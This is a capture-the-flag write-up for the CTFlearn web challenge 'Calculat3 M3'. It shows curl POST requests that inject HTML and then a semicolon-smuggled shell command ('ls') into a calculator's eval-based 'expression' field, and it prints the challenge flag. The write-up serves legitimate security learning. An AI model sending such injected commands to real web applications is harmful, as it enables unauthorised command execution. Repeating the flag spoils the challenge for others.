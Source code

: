 ## Calculat3 M3
### Difficulty: Hard

> Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, 
> but something tells me it was pretty insecure.

![image of calculator](https://i.imgur.com/gvtxCqE.png)

On opening the page, we get a calculator. Checking the source code shows how it works. The main function there is the `eval` function in the javascript code which can be a bad exploit. The eval function there can be used other than the calculating function like running commands and html injection into the page. 

![image of javascript code](https://i.imgur.com/YGrvD5O.png)

The calculator uses post method to calculate the inputs. Here we are sending the inputs via the name `expression`

![image of html code](https://i.imgur.com/HDZsQYO.png)

Next I used curl to send POST requests. Sending html code appended it into the site's source. Note: I converted my request into url format because of command line syntax

```
┌──(gr33pp㉿machine)-[~]
└─$ curl -d expression=%3Ch1%3EHelloworld%3C%2Fh1%3E -X POST https://web.ctflearn.com/web7/
<h1>Helloworld</h1>
<html>
<head>
  <link rel="stylesheet" href="main.css">
    <script type="text/javascript" src="calc.js"></script>

    </head>
    </body>
<div class="box">
<div class="display">
    <form action='.' method="post">
    <input type="text" name="expression" readonly size="18" id="d"></div>
<div class="keys">
    <p><input type="button" class="button gray"
    value="mrc" onclick='c("Created....................")'>
    <input type="button" class="button gray"
    value="m-" onclick='c("...............by............")'>
    <input type="button" class="button gray" value="
    m+" onclick='c(".....................Anoop")'>
    <input type="button" class="button pink"
    value="/ " onclick='v("/ ")'></p>
    <p><input type="button" class="button black"
    value="7 " onclick='v("7 ")'><input type="button"
    class="button black" value="8" onclick='v("8 ")'>
    <input type="button" class="button black" value="9 "
    ......

```

I tried escaping the eval main function with semi-colon and run os commands. Semi colon is %3B in url format and boom we are able to list the directory

```
┌──(gr33pp㉿kali)-[~]
└─$ curl -d expression=%3Bls -X POST https://web.ctflearn.com/web7/
calc.js
ctf{watch_0ut_f0r_th3_m0ng00s3}
index.php
main.css
main.css
<html>
<head>
  <link rel="stylesheet" href="main.css">
    <script type="text/javascript" src="calc.js"></script>

    </head>
    </body>
<div class="box">
<div class="display">
    <form action='.' method="post">
    <input type="text" name="expression" readonly size="18" id="d"></div>
<div class="keys">
    <p><input type="button" class="button gray"
    value="mrc" onclick='c("Created....................")'>
    <input type="button" class="button gray"
    value="m-" onclick='c("...............by............")'>
    <input type="button" class="button gray" value="
    m+" onclick='c(".....................Anoop")'>
    <input type="button" class="button pink"
    value="/ " onclick='v("/ ")'></p>
    <p><input type="button" class="button black"
    value="7 " onclick='v("7 ")'><input type="button"
    class="button black" value="8" onclick='v("8 ")'>
    <input type="button" class="button black" value="9 "\
    .....
```

![image](https://i.imgur.com/sDSfHYk.png)

flag: `ctf{watch_0ut_f0r_th3_m0ng00s3}`
